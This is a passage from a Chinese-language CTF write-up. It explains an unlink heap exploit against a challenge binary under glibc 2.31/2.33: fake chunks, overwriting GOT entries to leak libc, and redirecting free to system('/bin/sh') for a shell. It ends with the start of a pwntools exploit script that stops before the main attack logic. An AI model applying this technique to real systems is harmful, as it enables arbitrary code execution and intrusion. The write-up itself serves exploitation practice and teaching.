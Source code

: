 检查通不过：目的地址对应的size必须正确。

看来这条路是走不通了。看下一个思路：unlink。

如果是使用unlink的话，就无需考虑是否存在tcache了。如果有tcache则分配一个large bins大小的chunk让它被释放时不进tcache就好了。

记得在之前的how2heap分析中，对于unlink是直接将后面chunk的prev_inuse置为0的。这里我们不能直接这样做，而是需要利用未被清空的指针。

Step 1: 分配两个非tcache chunk并释放。释放之后，这两个chunk会被合并入top chunk中，绕过double free的检测。
Step 2: 分配一个大chunk使得这个chunk能够包含之前的两个chunk且还要多出一些空间。这一步是为了编辑这两个原先的chunk做准备的。这个大chunk和Step 1中第一个分配的chunk的地址应该是相同的。
Step 3: 在大chunk中构造数据，在原chunk_1前后构造假chunk使free能够通过检查。
Step 4: 释放原chunk_1。

**注意：在大chunk中需要在原chunk_1前后均伪造，这是为了通过unlink和_int_free的检查。在后方构造chunk主要构造其prev_inuse位为1以绕过line 4316 (glibc 2.31)的检查，在前方构造chunk是为了绕过unlink的检查，在how2heap中有分析，如有疑问请移步我之前写的how2heap分析文章，这里不再赘述。**

```C
if (__glibc_unlikely (!prev_inuse(nextchunk)))
      malloc_printerr ("double free or corruption (!prev)");
```

这样，释放chunk_1就能够成功，chunk_0的地址也会被修改到bss段上（0x6020C8）。我们现在可以通过chunk_0随意修改bss段中保存有chunk信息的部分了。之后的操作就是水到渠成：

Step 5: 将chunk_1的地址改为free的got表地址，修改为puts的plt地址。
Step 6: 将chunk_2的地址改为got表中除前两个函数外其他任意一个函数的地址，然后调用free输出地址。利用此地址计算libc的加载地址。
Step 7: 将计算得到的system地址写到free的got表地址中，向chunk_3写入'/bin/sh'（或者找到libc中本来就有的'/bin/sh'字符串地址，将其写到chunk_3的位置上）。
Step 8: 释放chunk_3，getshell。

payload: （本payload在Kali上测试成功，libc版本：Debian GLIBC 2.33-6，2022/4/5最新更新版本）

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')

# libc = ELF('./ctflibc.so.6')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.33.so')
libc_atoi_addr = libc.symbols['atoi']
libc_sys_addr = libc.symbols['system']
libc_write_addr = libc.symbols['write']

print(hex(libc_atoi_addr))
print(hex(libc_sys_addr))

chunk_addr_bss = 0x6020E0

elf = ELF('./pwn')
io = process('./pwn')
# io = remote('111.200.241.244', 54585)

def create(size, index, content):
	io.sendlineafter(b'$ ', b'1')
	io.sendlineafter(b'Input size\n', str(size).encode())
	io.sendlineafter(b'Input cun\n', str(index).encode())
	io.sendafter(b'Input content\n', content)

def delete(index):
	io.sendlineafter(b'$ ', b'2')
	io.sendlineafter(b'Chose one to dele\n', str(index).encode())

def edit(index, content):
	io.sendlineafter(b'$ ', b'3')
	io.sendlineafter(b'Chose one to edit\n', str(index).encode())
	io.sendafter(b'Input the content\n', content)

main_addr = 0x400C8C
```